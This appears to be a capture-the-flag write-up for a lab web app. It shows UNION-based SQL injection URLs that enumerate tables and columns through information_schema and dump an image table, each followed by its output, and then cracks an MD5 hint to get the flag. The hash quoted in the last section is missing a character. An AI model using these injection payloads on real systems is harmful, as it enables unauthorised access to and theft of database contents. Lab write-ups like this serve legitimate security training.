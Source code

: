 # Sql_Advanced_Injection

The GET parameter in the image search form is vulnerable to sql injection

## Method

Go to the search image page (<http://192.168.1.102/?page=searchimg>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

### getting the table name

```

http://192.168.1.102/?page=searchimg&id=-1 union select table_name, 0 from information_schema.tables where table_schema=database()&Submit=Submit

```

#### result

```

ID: -1 union select table_name, 0 from information_schema.tables where table_schema=database() 
Title: 0
Url : list_images

```

### getting the column names

```

http://192.168.1.102/?page=searchimg&id=-1 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

```

#### result

```

ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: int(11)
Url : id
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(40)
Url : url
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(25)
Url : title
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(255)
Url : comment

```

### getting information we need

```

http://192.168.1.102/?page=searchimg&id=-1 union select title, comment from list_images&Submit=Submit

```

#### result

```

ID: -1 union select title, comment from list_images 
Title: An image about the NSA !
Url : Nsa
ID: -1 union select title, comment from list_images 
Title: There is a number..
Url : 42 !
ID: -1 union select title, comment from list_images 
Title: Google it !
Url : Google
ID: -1 union select title, comment from list_images 
Title: Yes we can !
Url : Obama
ID: -1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
ID: -1 union select title, comment from list_images 
Title: Because why not ?
Url : tr00l

```

You can see that it gives us this helpful part that says "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
We then follow this intruction to get the flag we need.

## How to get the flag

Decode the hash 1928e8083cf461a51303633093573c4 using md5.gromweb.com website.
Which gives us the original string "Albatroz"
lower all characters and as per the instructions Sh-256 of albatroz is: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 which is the flag

